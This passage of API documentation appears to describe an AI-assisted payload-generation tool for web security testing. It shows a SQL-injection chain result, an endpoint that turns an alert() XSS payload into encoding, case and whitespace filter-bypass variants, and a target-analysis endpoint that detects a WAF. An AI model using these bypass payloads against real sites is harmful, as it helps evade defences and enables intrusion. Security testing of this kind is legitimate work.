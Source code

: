 ```json
                "verification_steps": ["Check for database access", "Verify data extraction"],
                "risk_level": "High",
                "mitigation": "Use parameterized queries",
                "ai_reasoning": "Boolean-based technique chosen for reliable data extraction"
            }
        ]
    },
    "total_chains": 3,
    "chain_optimized": true
}
```

### Generate Bypass Payloads

**Endpoint**: `POST /ai-payloads/bypass`

**Description**: Generate bypass variations of existing payloads

**Request Body**:
```json
{
    "original_payload": "<script>alert('XSS')</script>",
    "bypass_techniques": ["encoding", "case_manipulation", "whitespace"]
}
```

**Response**:
```json
{
    "success": true,
    "original_payload": "<script>alert('XSS')</script>",
    "bypass_techniques": ["encoding", "case_manipulation", "whitespace"],
    "bypass_payloads": [
        "%3Cscript%3Ealert('XSS')%3C/script%3E",
        "<ScRiPt>alert('XSS')</ScRiPt>",
        "<script>\talert('XSS')\t</script>",
        "&#60;script&#62;alert('XSS')&#60;/script&#62;",
        "<script>\nalert('XSS')\n</script>"
    ],
    "total_bypasses": 5,
    "bypass_generated": true
}
```

### Analyze Target

**Endpoint**: `GET /ai-payloads/analyze/{target_url}`

**Description**: Analyze target for intelligent payload generation

**Response**:
```json
{
    "success": true,
    "target_url": "https://example.com/search.php",
    "analysis": {
        "technology_stack": {
            "language": "PHP"
        },
        "waf_detected": true,
        "waf_type": "Cloudflare",
        "framework_detection": {},
        "domain": "example.com",
        "path": "/search.php",
        "parameters": {
            "q": ["test"]
        }
```